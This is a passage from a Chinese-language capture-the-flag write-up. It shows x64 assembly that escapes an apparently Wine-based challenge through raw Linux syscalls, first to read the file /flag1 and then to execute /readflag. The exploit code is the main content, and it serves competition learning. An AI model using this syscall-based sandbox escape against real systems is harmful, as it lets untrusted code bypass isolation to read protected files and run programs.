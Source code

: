 编译指令如下（需要使用 Visual Studio 的那个 x64 Native Tools Command Prompt）：

```console
ml64.exe a.asm /link /SUBSYSTEM:CONSOLE /ENTRY:main /OUT:a.exe
```

上传后居然可以输出 Hello World，说明这样确实工作。那么为了拿到第一个 flag，我们只需要读写 `/flag1` 文件即可。代码如下：

```nasm
.code
main    proc
        lea     rdi, filename
        mov     rsi, 0
        mov     rdx, 0
        mov     rax, 2
		syscall
        mov     rdi, rax
        lea     rsi, msg
        mov     rdx, 1024
        mov     rax, 0
		syscall
        mov     rdi, 1
        lea     rsi, msg
        mov     rdx, rax
        mov     rax, 1
		syscall
        mov     rdi, 0
        mov     rax, 60
		syscall

main    endp
.data
filename             byte        "/flag1"
msg             byte        00h dup (1024)
        end
```

## 杯窗鹅影 - flag2

这次我们直接执行 exec。代码如下：

```nasm
.code
main    proc
        lea     rdi, filename
        mov     rsi, 0
        mov     rdx, 0
        mov     rax, 59
		syscall
        mov     rdi, 0
        mov     rax, 60
		syscall

main    endp
.data
filename             byte        "/readflag"
msg             byte        00h dup (1024)
        end
```
